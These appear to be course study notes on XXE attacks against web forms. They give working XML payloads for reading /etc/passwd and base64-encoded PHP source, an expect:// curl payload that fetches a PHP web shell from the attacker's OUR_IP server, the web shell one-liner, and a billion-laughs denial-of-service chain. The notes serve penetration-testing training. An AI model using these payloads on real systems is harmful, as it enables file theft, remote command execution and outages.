







## Local File Disclosure
* When application trusts unfiltered XML data from user input
	* we are may able to reference an external XML DTD document and define new custom XML entities

## Identifying
* First step in identifying potential XXE vulnerabilities is finding web pages that accept an XML user input




* Suppose the web application uses outdated XML libraries, and it does not apply any filters or sanitization on our XML input
* If we send the form without any modification, we get the following message



* To print the content of an external file to the page, we should `note which elements are being displayed, such that we know which elements to inject into`
* Whatever value we place in the `<email></email>` element gets displayed in the HTTP response
* Try to define a new entity and then use it as a variable in the `email` element to see whether it gets replaced with the value we defined

```xml
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
```

**Note:** In our example, the XML input in the HTTP request had no DTD being declared within the XML data itself, or being referenced externally, so we added a new DTD before defining our entity. If the `DOCTYPE` was already declared in the XML request, we would just add the `ENTITY` element to it.

* New XML entity called `company`, which we can reference with `&company;`



**Note:** Some web applications may default to a JSON format in HTTP request, but may still accept other formats, including XML. So, even if a web app sends requests in a JSON format, we can try changing the `Content-Type` header to `application/xml`, and then convert the JSON data to XML with an [online tool](https://www.convertjson.com/json-to-xml.htm). If the web application does accept the request with XML data, then we may also test it against XXE vulnerabilities, which may reveal an unanticipated XXE vulnerability.

## Reading Sensitive Files
* Now we can define an external entity
* We just add the `SYSTEM` keyword and the path

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```



**Tip:** In certain Java web applications, we may also be able to specify a directory instead of a file, and we will get a directory listing instead, which can be useful for locating sensitive files.

## Reading Source Code
* LFI also allows us to read source code 



* We could not read the file because `the file we are referencing is not in a proper XML format, so it fails to be referenced as an external XML entity`
* If the file contains some of XML's special characters (e.g. `<`/`>`/`&`), it would break the external entity reference and not be used for the reference
* Furthermore, we cannot read any binary data, as it would also not conform to the XML format
* To do so, instead of using `file://` as our reference, we will use PHP's `php://filter/` wrapper
	* Specify the `convert.base64-encode` encoder as our filter, and then add an input resource (e.g. `resource=index.php`)

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```



* This trick only works with PHP web applications

## Remote Code Execution with XXE
* Easiest method would be to look for `ssh` keys
* We may be able to execute commands on PHP-based web applications through the `PHP://expect` filter
	* This requires the PHP `expect` module to be installed and enabled
* Also possible but less likely execute basic commands as `expect://id`
* Most efficient method to turn XXE into RCE is by fetching a web shell from our server and writing it to the web app, and then we can interact with it to execute commands

```sh
$ echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
$ sudo python3 -m http.server 80
```

* Use the following XML code to execute a `curl` command that downloads our web shell into the remote server

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```

**Note:** We replaced all spaces in the above XML code with `$IFS`, to avoid breaking the XML syntax. Furthermore, many other characters like `|`, `>`, and `{` may break the code, so we should avoid using them.

## Other XXE Attacks
* SSRF exploitation, which is used to enumerate locally open ports and access their pages, among other restricted web pages, through the XXE vulnerability
* Another attack would be Denial of Service (DOS)

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">        
]>
<root>
<name></name>
<tel></tel>
<email>&a10;</email>
<message></message>
</root>
```

*  `this attack no longer works with modern web servers (e.g., Apache), as they protect against entity self-reference`
